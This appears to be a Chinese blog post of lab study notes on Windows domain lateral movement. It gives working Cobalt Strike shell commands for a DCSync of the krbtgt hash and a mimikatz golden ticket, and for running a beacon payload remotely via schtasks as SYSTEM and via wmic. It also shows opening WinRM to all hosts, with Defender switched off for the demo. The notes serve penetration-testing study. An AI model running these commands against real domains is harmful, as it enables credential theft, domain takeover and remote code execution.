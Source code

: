 ```yaml
---
layout: post
title:  域渗透学习二
tags: [域渗透]
---
```


# 概述
web选手学习域渗透记录。
1. [域渗透学习一](https://h4fan.github.io/2021/08/18/%E5%9F%9F%E6%B8%97%E9%80%8F%E5%AD%A6%E4%B9%A0%E4%B8%80.html)

# 目录
* 黄金票据
* schtasks
* wmic
* winrm
* sc


## 记录

### 黄金票据
获取krbtgt hash，在域控shell上执行
```
dcsync test.local test\krbtgt
# 获取Object Security ID 和 Hash NTLM

```

在win7普通权限shell，右键伪造golden ticket
```
# 查看
mimikatz  kerberos::list

# 此时可以查看到共享
shell dir \\win2016\c$
```

### schtasks
注意/st 时间格式HH:MM，不要漏掉0。关闭了防火墙，提供了用户名和密码。或者管理员session，时间按照net time 第一个时间设置就可以。create 之后要 run。
此处时间存在问题，以远程目标机时间为准，即第二个时间。/np参数，但是这样只能访问本地资源,否则需要用户登陆，不行这样就没有网络。或者选择/ru system，这样可以不需要logon，到时间了可以自动运行。即使时间过了，用run还是可以运行，前提是使用了/ru system。还有一个捣乱的问题是，defender把beacon.exe给删掉了。

```
shell net time \\win10

shell schtasks /create /S win10 /u [domain\username] /p [password] /sc once /tn runshell /tr c:\beacon.exe /st 07:00  /ru system 

shell schtasks /run /s win10 /u [domain\username] /p [password] /tn runshell 

shell schtasks /delete /s win10 /u [domain\username] /p [password] /tn runshell /f
```

如果拥有管理员权限，/ru system 可以直接得到system 权限shell。

schtasks /query显示错误：无法加载列资源
```
# 在win7 机器执行
chcp 437
# 在打开的cmd中
schtasks /query /s win10 /u [domain\username] /p [password] /tn runshell /fo list


```

### wmic
一是权限的问题，二是防火墙的问题。还有免杀的问题，演示时关闭windows defender.
使用管理员账号spawn一个session
```
shell wmic /node:win10 process list brief

shell copy beacon.exe \\win10\c$

shell wmic /node:win10 process call create "cmd.exe /c c:\beacon.exe" 
```

### winrm
在目标机上，打开管理员权限的cmd
```
# 开启winrm
winrm quickconfig

winrm e winrm/config/listener

winrm set winrm/config/client @{TrustedHosts="*"}
```
在win7上执行
```
winrm -r:http://win10:5985 -u:[Username] -p:[passowrd] whoami

```
在cs 中shell执行一直提示句柄无效。可以直接用图形界面，jump  winrm64 运行。

### sc
参考 域渗透学习一


### 引用
1. https://cloud.tencent.com/developer/article/1743842
2. https://www.cnblogs.com/xiaozi/p/14263931.html
3. https://www.cnblogs.com/lcxblogs/p/13847184.html
4. https://drunkmars.top/2021/06/10/%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%E6%80%BB%E7%BB%93/
5. https://www.cnblogs.com/websecyw/p/11238189.html
6. https://blog.csdn.net/weixin_43713800/article/details/113195764
7. https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-run
